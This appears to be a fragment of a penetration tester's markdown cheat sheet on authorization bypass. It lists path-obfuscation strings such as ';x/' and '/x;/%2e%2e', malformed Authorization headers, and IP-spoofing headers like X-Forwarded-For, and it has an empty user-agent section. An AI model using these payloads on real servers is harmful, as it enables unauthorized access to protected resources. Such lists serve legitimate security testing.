 ```
///../
///..//
```

### Specific Obfuscation

```
;x
;x/
/x/../
/x//../
/x/;/../
/x/;/..;/
/x;/../
/x;/%2e%2e
/x;/%2e%2e/
/x;/../
;x/../
;x;/../
```

## User Agent Fuzzing

TODO: Fill the helpful payloads for authorization bypass (refer to links)

```

```

## HTTP Headers Injection

^d0c9f6

```
Authorization: Bearer
Authorization: Bearer <whitespace>
Authorization: <whitespace>
Authorization: Bearer A
Authorization: Bearer a a

Accept
Accept-Application
Accept-Charset
Accepted
Accept-Encoding
Accept-Encodxng
Accept-Language
Accept-Ranges
Accept-Version
Access-Control-Allow-Credentials
Access-Control-Allow-Headers
Access-Control-Allow-Methods
Access-Control-Allow-Origin
Access-Control-Expose-Headers

Forwarded: <IP>
X-Forwarded-For: <IP>
Base-Url: {URL PAYLOAD}
Base-Url: <IP>
CF-Connecting-IP: <IP>
CF-Connecting_IP: <IP>
Contact: <IP>
Client-IP: <IP>
Destination: <IP>
From: <IP>
```